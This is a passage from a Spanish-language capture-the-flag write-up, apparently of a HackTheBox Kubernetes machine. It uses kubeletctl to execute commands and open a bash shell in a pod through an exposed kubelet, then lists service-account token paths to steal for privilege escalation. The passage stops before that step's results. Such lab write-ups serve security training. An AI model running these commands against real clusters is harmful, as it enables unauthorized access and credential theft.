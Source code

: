 ```
│ 5 │ coredns-78fcd69978-lc4mh           │ kube-system │ coredns                 │
│   │                                    │             │                         │
├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
│ 6 │ nginx                              │ default     │ nginx                   │
│   │                                    │             │                         │
├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
│ 7 │ etcd-steamcloud                    │ kube-system │ etcd                    │
│   │                                    │             │                         │
├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
│ 8 │ kube-apiserver-steamcloud          │ kube-system │ kube-apiserver          │
│   │                                    │             │                         │
└───┴────────────────────────────────────┴─────────────┴─────────────────────────┘
```

Al ver que hay un pod por defecto en el sistema que es **nginx**, podemos intentar ejecutar comandos con el siguiente comando:

```
kubeletctl -s 10.10.11.133 exec "id" -p nginx -c nginx
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FMVh6Lwey8QChlnwo0AcE%2F1.png?alt=media&#x26;token=b15cdbda-5e13-4999-a45c-c45aafafa97f" alt=""><figcaption></figcaption></figure>

## Explotación

Sabiendo esto podemos poner como payload `/bin/shell` para ejecutar una shell interactiva.

```
kubeletctl -s 10.10.11.133 exec "/bin/bash" -p nginx -c nginx
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F8GUPe6vlLjaBoOAUogZR%2F2.png?alt=media&#x26;token=20efa5fa-125a-4973-b789-1c38825593a4" alt=""><figcaption></figcaption></figure>

Ya tendríamos la user flag.

### Escalada de privilegios

Ya que se sabe que se puede obtener información del sistema por medio de los comandos anteriores, se procede a buscar información importante en el sistema. Actualmente hay una página llamada HackTricks, esta nos permite obtener información sobre formas de hackeo. En este caso como estamos tocando temas de Kubernetes, se procede a realizar la busqueda sobre este tema y se observar que se encuentra la siguiente información.

[Kubernetes Tokens](https://book.hacktricks.xyz/cloud-security/pentesting-kubernetes/kubernetes-enumeration#kubernetes-tokens), esto nos indica que si se tiene comprometido el POD y se puede ejecutar comandos, se puede agregar un token ademas de traer la información del sistema.

Las rutas donde se pueden encontrar este token son:

* /run/secrets/kubernetes.io/serviceaccount
* /var/run/secrets/kubernetes.io/serviceaccount
* /secrets/kubernetes.io/serviceaccount

Se procede a probar una por una y vemos el siguiente resultado.
